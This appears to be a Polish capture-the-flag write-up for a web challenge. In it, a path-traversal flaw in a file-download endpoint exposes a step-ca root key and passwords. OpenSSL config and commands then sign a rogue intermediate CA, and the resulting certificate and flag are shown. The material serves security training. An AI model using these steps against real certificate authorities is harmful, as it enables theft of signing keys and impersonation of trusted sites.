

# Bad CA - web



Endpoint `/send_file?path=certs` jest vulnerable na LFI, dlatego z `/send_file?path=/opt/step` można pobrać cały config step-ca, łącznie z certami, kluczami i hasłami do nich.

Potem używając OpenSSL możemy zrobić własny CA i podpisać go root cert'em.

```
[v3_intermediate_ca]
basicConstraints = CA:TRUE
authorityKeyIdentifier = keyid,issuer
keyUsage = critical, cRLSign, keyCertSign
subjectAltName = @alt_names
authorityInfoAccess = @issuer_info

[issuer_info]
caIssuers;URI.0 = https://bad-ca.ecsc23.hack.cert.pl/send_file?path=certs/root_ca.crt

[alt_names]
DNS.1 = example.com
DNS.2 = fkania2.example.com
```

```shell=
#!/bin/sh
openssl genpkey -algorithm RSA -out ca.key
openssl req -new -key ca.key -out ca.csr
openssl x509 -req -in ca.csr -CA ./certs/root_ca.crt -CAkey ./secrets/root_ca_key -CAcreateserial -out ca.crt -days 1825 -sha256 -extfile ca.conf -extensions v3_intermediate_ca
```

Podpisany certyfikat:

```
-----BEGIN CERTIFICATE-----
MIIDfTCCAyKgAwIBAgIUUEKdqZ3+Y1jD1/pmBUsTnG8YBwwwCgYIKoZIzj0EAwIw
QjEbMBkGA1UEChMSRUNTQzIwMjMgQ29ycG9yYXRlMSMwIQYDVQQDExpFQ1NDMjAy
MyBDb3Jwb3JhdGUgUm9vdCBDQTAeFw0yMzA3MjIxMzQxNTVaFw0yODA3MjAxMzQx
NTVaMFIxCzAJBgNVBAYTAlBMMRMwEQYDVQQIDApTb21lLVN0YXRlMRAwDgYDVQQK
DAdTb21lIENhMRwwGgYDVQQDDBNma2FuaWEyLmV4YW1wbGUuY29tMIIBIjANBgkq
hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0QIWycLEMuIv7yZxRT8uVttvuwW33b55
mRsjRxv82z1dU1hcfBt5ucYVyEtlDtiarAVxhkE5mqRlSmq5FonfzvSfD/G9+x5w
jWenIWuzrXfoVma+ot5CdnRzVjvGYPN22TtxvUpvrlXW5xVdc778BW81iQixmFsv
sYgldYgGWdW2UeJmq/btSZc94+NfA2oUzMlTx/UMicCykKN1Ss+Ffzn0d4ybomL1
99dEKKsZkK2ZUvEL+9kgsECBakXO3Tv/3tzoI1fosgP5+7P/+QSeLrRlwERSoGqj
/dQnSmLURZFtqjrK3xrCC9SVNwVl92iJlrPcdisZbvXsUN5kSdYi9wIDAQABo4IB
GTCCARUwDAYDVR0TBAUwAwEB/zAdBgNVHQ4EFgQUNxpq/T8S6plDkFliLSfMkTTY
CBEwHwYDVR0jBBgwFoAUC7ukl6+bcp8WMb4zjsXsG0t7fIQwDgYDVR0PAQH/BAQD
AgEGMCsGA1UdEQQkMCKCC2V4YW1wbGUuY29tghNma2FuaWEyLmV4YW1wbGUuY29t
MF8GCCsGAQUFBwEBBFMwUTBPBggrBgEFBQcwAoZDaHR0cHM6Ly9iYWQtY2EuZWNz
YzIzLmhhY2suY2VydC5wbC9zZW5kX2ZpbGU/cGF0aD1jZXJ0cy9yb290X2NhLmNy
dDAnBgNVHR8EIDAeMBygGqAYhhZodHRwOi8vZXhhbXBsZS5jb20vY3JsMAoGCCqG
SM49BAMCA0kAMEYCIQDXbmNe1q92uoBpeBMPMVOBrYW4owCF7s6HcHzjEaUyrwIh
APrfxY5P74dh5n/eJtaMmn0CWskrQ1NNneYoGUBOPiLf
-----END CERTIFICATE-----
```

Flag: `ecsc23{this_dns_validation_doesnt_seem_about_right}`